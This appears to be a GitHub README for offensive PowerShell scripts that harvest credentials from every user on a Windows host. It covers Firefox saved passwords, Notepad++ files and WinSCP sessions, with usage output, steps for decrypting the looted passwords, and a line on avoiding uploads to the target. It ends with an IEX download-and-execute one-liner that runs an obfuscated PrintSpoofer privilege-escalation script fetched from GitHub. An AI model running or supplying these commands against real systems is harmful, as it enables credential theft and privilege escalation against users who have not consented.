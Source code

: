 A set of scripts to help gathering credentials from Windows devices, especially usefull if there are hundreds of users on the machine.

The scripts should be run as a **high privileged user** to gather as much information as possible.

---

# firefox_dump.ps1
This script will loop through all users under `C:\Users` and dump all saved credentials from Mozilla Firefox profiles. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\firefox_dump.ps1
[-] 'Public' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'user' to: C:\Users\void\AppData\Local\Temp\user\firefox\ahf32hh2.default-release
[+] Dumping secrets from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\firefox\plhh3lmm.default-release
[-] 'user3' doesn't have any saved passwords in Mozilla Firefox
[+] Dumping secrets from 'void' to: C:\Users\void\AppData\Local\Temp\void\firefox\plmxz1zm.default-release
```

If you don't want to upload files to the target host simply copy-paste the try-catch code from the script and run it as is in PowerShell.
Decrypt the information with  [`firefox_decrypt.py`](https://github.com/unode/firefox_decrypt) or similar.
```bash
┌──(void㉿void)-[/opt/firefox_decrypt]
└─$ ./firefox_decrypt.py /tmp/firefox-loot/user1            

Website:   http://localhost:8000
Username: 'dev-user'
Password: 'D3velopm3ntM@st3rK3y*!'
```
---

# notepad_dump.ps1
This script will loop through all users under `C:\Users` and dump all roaming text files from Notepad++. 
## Example Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\notepad_dump.ps1
[-] 'Public' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'user' to: C:\Users\void\AppData\Local\Temp\user\notepad++
[+] Dumping Notepad++ data from 'user2' to: C:\Users\void\AppData\Local\Temp\user2\notepad++
[-] 'user3' doesn't have any roaming Notepad++ data.
[+] Dumping Notepad++ data from 'void' to: C:\Users\void\AppData\Local\Temp\void\notepad++
```

---

# winscp_dump.ps1
This script will loop through all users in the registry (HKLM) and dump all saved winscp sessions.
## Exampe Usage
```powershell
PS E:\devop-scripts> powershell.exe -ExecutionPolicy Bypass .\winscp_dump.ps1
[+] User: void - Session: root@127.0.0.1
  HostName: 127.0.0.1
  UserName: root
  EncPassword: A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF

[+] Saved all output to logfile: C:\Users\void\AppData\Local\Temp\winscp_dump.log
```

Decrypt the encrypted password with [`WinSCPDec.py`](https://gist.github.com/tijldeneut/69717c56de3e16e97516a1964fa49bfd) or similar.
```bash
apt-kali :: ~ » python3 WinSCPDec.py --host=127.0.0.1 --user=root --pass=A35C745EFEDC2E3333286D6E6B726C726C726D0834352F152F11250F393F2E39280C3D2F2F2B387D7E7F6D7D7E7F5B3C20AF
[+] Succes!
     ThisIsMySecretPasswd!"#1!"#
```

---

# obf_ps.ps1
Obfuscated PrintSpoofer script.
```powershell
> powershell -nop -ExecutionPolicy Bypass -c IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/0xPThree/Windows-Harvesting/refs/heads/main/obf_ps.ps1')
[-] Please specify a command to execute

## If error: "The request was aborted: Could not create SSL/TLS secure channel."
> [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
```
